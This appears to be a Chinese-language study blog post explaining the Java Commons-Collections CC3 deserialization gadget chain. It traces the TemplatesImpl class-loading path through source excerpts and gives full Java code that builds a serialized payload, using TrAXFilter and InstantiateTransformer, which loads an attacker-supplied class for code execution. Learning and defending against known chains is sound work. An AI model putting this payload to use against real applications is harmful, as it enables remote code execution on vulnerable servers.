






+++
+++
date = '2026-04-24T16:54:21+08:00'
draft = false
title = 'Java Deserialization CC3'
categories = ["java"]
tags = ["java-security", "deserialization", "cc3"]

+++

# 前言

本文主要介绍一下CC3的构造过程还有gadget链调试过程，这里主要是改gadget链的后半段链，主要是用了动态加载，通过动态加载我们构造的恶意类，触发构造代码块，来自动调用我们的恶意代码，主要是用到的`ClassLoader.getSystemClassLoader()`和`Class.newInstance()`来触发sink。

---

# 一、CC3调用链的整体概览

首先先看一下ysoserial给出的gadget链条是说用`InstantiateTransformer`来代替`InvokerTransformer`

# 二、环境

首先引入漏洞库，和CC1的相同

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

java版本选择JDK8u65

# 三、CC3链详解

## 1.大体串联gadget链

这里我们先串联一下链的后半部分，先不用这个`InstantiateTransformer`类，还是用`InvokerTransformer.transform()`方法来调用反射`defineClass`，调用到这里，基本上就实现了类的动态加载。

这里我们找到了一个类`TemplatesImpl`，这个类可以构造出我们所需要的链，这里看一下源码



我们找到一个方法`TemplatesImpl.newTransformer()`方法，他是被public修饰的，可以被利用，在这里他调用了`getTransletInstance`这个方法，我们跟进去



他在这里调用了`defineTransletClasses`方法，我们继续跟进去



发现在这里调用了`defineClass`完成了类的加载，然后我们再返回到`getTransletInstance`



调用`Class.newInstance()`完成类的初始化，最终触发我们构造的类中的静态代码块中的恶意代码

## 2.开始构造Gadget链

还是和之前一样，需要把我们刚才分析的类`TemplatesImpl`所涉及的方法前面有什么限制，需要过一下他的代码逻辑

```java
public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);

        if (_uriResolver != null) {
            transformer.setURIResolver(_uriResolver);
        }

        if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
            transformer.setSecureProcessing(true);
        }
        return transformer;
    }
```

调用`getTransletInstance()`没有什么限制，直接就可以调用

```java
private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            translet.postInitialization();
            translet.setTemplates(this);
            translet.setServicesMechnism(_useServicesMechanism);
            translet.setAllowedProtocols(_accessExternalStylesheet);
            if (_auxClasses != null) {
                translet.setAuxiliaryClasses(_auxClasses);
            }

            return translet;
        }
        catch (InstantiationException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (IllegalAccessException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```

这里有我们需要的两个方法

- `defineTransletClasses()`需要name字段不为空，然后class字段需要为空
- `newInstance()`这个方法没有什么限制，因为执行完上面的方法后，class就已经被加载进去了，后续不会爆空指针异常

```java
private void defineTransletClasses()
    throws TransformerConfigurationException {

    if (_bytecodes == null) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
        throw new TransformerConfigurationException(err.toString());
    }

    TransletClassLoader loader = (TransletClassLoader)
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
            }
        });

    try {
        final int classCount = _bytecodes.length;
        _class = new Class[classCount];

        if (classCount > 1) {
            _auxClasses = new HashMap<>();
        }

        for (int i = 0; i < classCount; i++) {
            _class[i] = loader.defineClass(_bytecodes[i]);
            final Class superClass = _class[i].getSuperclass();

            // Check if this is the main class
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                _transletIndex = i;
            }
            else {
                _auxClasses.put(_class[i].getName(), _class[i]);
            }
        }

        if (_transletIndex < 0) {
            ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
    catch (ClassFormatError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
    catch (LinkageError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
}
```

`defineClass`需要`bytecodes`不为空，然后就可以让`defineClass（）`方法可达

所以我们在构造`TemplatesImpl`的时候，需要让上面所提到的三个字段为非空

## 3.构造gadget

`TemplatesImpl`的构造函数只有一个空参构造的函数，我们需要用反射调用来注入字段值

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaa");
Field declaredField = tc.getDeclaredField("_bytecodes");
declaredField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("D:\\evilCode\\Test.class"));
byte[][] codes = {code};
declaredField.set(templates,codes);
```

这里的`code`被定义为二维数组，看源码可知，在调用`defineClass`时候，会把二维数组一个一个取出，分别加载所需要的类，我们只需要加载自己的恶意类，所以放一个一维数组即可

gadget链前面的部分，就还可以沿用CC1的链，直接拼接，然后用transform反射调用newTransformer即可

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value",123);
        Map<Object,Object> decorate = TransformedMap.decorate(map, null, chainedTransformer);
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(SuppressWarnings.class, decorate);
        serialize(o);
```

## 3.YSO中的CC3

YSO作者给出的CC3，他又多走路一步，我们首先先看一下`InstantiateTransformer`的`transfrom`方法



他的作用是在这里调用一个构造函数，并且把它实例化，那我们就需要找一个类，让这个类在被调用构造函数的过程中，或者是它里面有静态代码块，调用`templates。newTransformer()`，我们最终找到一个类，是`TrAXFilter`，这里给出他的构造函数

```java
public TrAXFilter(Templates templates)  throws
    TransformerConfigurationException
{
    _templates = templates;
    _transformer = (TransformerImpl) templates.newTransformer();
    _transformerHandler = new TransformerHandlerImpl(_transformer);
    _useServicesMechanism = _transformer.useServicesMechnism();
}
```

这里很凑巧可以把这个链连接起来

最终的payload为

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");
        Field declaredField = tc.getDeclaredField("_bytecodes");
        declaredField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\evilCode\\Test.class"));
        byte[][] codes = {code};
        declaredField.set(templates,codes);


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value",123);
        Map<Object,Object> decorate = TransformedMap.decorate(map, null, chainedTransformer);
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(SuppressWarnings.class, decorate);
        serialize(o);
```


---

# 总结

还是ai生成的图，里面有点错别字，在路径1中缺失一条边，应该是`template.newTransformer`到`templatesImpl`内部的一条边



学习CC3所了解的事情就是我们可以用动态类加载来扩大攻击面。

